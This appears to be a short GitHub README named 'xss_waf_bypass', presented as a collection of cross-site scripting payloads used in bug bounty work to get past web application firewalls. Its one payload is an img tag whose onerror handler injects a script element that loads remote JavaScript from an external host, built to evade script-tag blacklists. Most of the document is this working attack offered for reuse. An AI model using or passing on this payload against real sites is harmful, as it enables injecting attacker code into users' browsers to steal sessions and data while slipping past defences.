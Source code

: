 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

Inject external javascript without using `<script>` tag since it's blacklisted in almost all modern waf

```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```

